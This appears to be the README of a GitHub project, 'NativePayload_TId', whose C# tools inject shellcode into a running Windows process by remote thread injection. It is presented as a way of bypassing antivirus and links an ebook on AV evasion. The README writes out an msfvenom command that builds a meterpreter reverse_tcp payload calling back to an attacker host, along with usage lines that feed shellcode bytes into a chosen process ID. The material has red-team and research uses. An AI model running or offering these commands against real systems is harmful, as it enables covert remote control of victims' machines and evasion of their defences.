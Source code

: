 # NativePayload_TId
Remote Thread Injection by C# Delegate

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

Article [2]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)

------------------------------------------------

    Code1 step1: NativePayload_TId2.exe [TPID] [PAYLOAD]

    Code2 step2: NativePayload_TId3.exe [TPID] [VAx-addr or VirtualAllocEx Address from step1]


    EXAMPLE: NativePayload_TId2.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TId3.exe 2452 1bfc0190000
    
    
step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part3)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part3.pdf

------------------------------------------------

    NativePayload_TImd.exe [steps 1 or 2] [delay 2000]  [MemoryProtection/mode 0 or 1] [TPID 4716]  [payload fc,48,..]
    
    example: NativePayload_TImd.exe  1  2000  0  4716  fc,48,56,...
    
    example: NativePayload_TImd.exe  2  6721  1  4716  fc,48,56,...
    
        step = 1  you will have 4 steps (default)
    
        step = 2  you will have 28 steps
    
        MemoryProtection = 0  API::VirtualAllocEx set to MemoryProtection.ExecuteReadWrite
    
        MemoryProtection = 1  API::VirtualAllocEx set to MemoryProtection.Execute
    

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part3)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part3.pdf
